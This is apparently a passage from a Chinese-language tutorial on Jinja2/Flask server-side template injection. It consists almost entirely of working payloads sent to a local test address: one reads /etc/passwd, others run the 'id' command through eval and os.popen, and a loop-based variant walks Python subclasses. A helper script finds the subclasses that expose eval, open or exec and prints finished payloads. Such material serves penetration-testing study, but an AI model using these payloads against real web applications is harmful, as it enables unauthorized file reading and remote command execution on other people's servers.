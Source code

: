 **<a class="reference-link" name="payload%20python3"></a>payload python3**

因为python3没有file了，所以用的是open

```
#文件读取
http://192.168.228.36/?name=`{``{`().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()`}``}`
```

[![](https://p5.ssl.qhimg.com/t01b004ffacc8b0c545.png)](https://p5.ssl.qhimg.com/t01b004ffacc8b0c545.png)

执行命令

```
#任意执行
http://192.168.228.36/?name=`{``{`().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")`}``}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01d6481753bf0f3123.png)

```
#命令执行：
`{`% for c in [].__class__.__base__.__subclasses__() %`}``{`% if c.__name__=='catch_warnings' %`}``{``{` c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") `}``}``{`% endif %`}``{`% endfor %`}`
#文件操作
`{`% for c in [].__class__.__base__.__subclasses__() %`}``{`% if c.__name__=='catch_warnings' %`}``{``{` c.__init__.__globals__['__builtins__'].open('filename', 'r').read() `}``}``{`% endif %`}``{`% endfor %`}`
```

寻找function的过程可以用一个小脚本解决, 脚本找到被重载过的function，然后组成payload

```
#!/usr/bin/python3
# coding=utf-8
# python 3.5
from flask import Flask
from jinja2 import Template
# Some of special names
searchList = ['__init__', "__new__", '__del__', '__repr__', '__str__', '__bytes__', '__format__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__hash__', '__bool__', '__getattr__', '__getattribute__', '__setattr__', '__dir__', '__delattr__', '__get__', '__set__', '__delete__', '__call__', "__instancecheck__", '__subclasscheck__', '__len__', '__length_hint__', '__missing__','__getitem__', '__setitem__', '__iter__','__delitem__', '__reversed__', '__contains__', '__add__', '__sub__','__mul__']
neededFunction = ['eval', 'open', 'exec']
pay = int(input("Payload?[1|0]"))
for index, i in enumerate(`{``}`.__class__.__base__.__subclasses__()):
    for attr in searchList:
        if hasattr(i, attr):
            if eval('str(i.'+attr+')[1:9]') == 'function':
                for goal in neededFunction:
                    if (eval('"'+goal+'" in i.'+attr+'.__globals__["__builtins__"].keys()')):
                        if pay != 1:
                            print(i.__name__,":", attr, goal)
                        else:
                            print("`{`% for c in [].__class__.__base__.__subclasses__() %`}``{`% if c.__name__=='" + i.__name__ + "' %`}``{``{` c." + attr + ".__globals__['__builtins__']." + goal + "(\"[evil]\") `}``}``{`% endif %`}``{`% endfor %`}`")
```
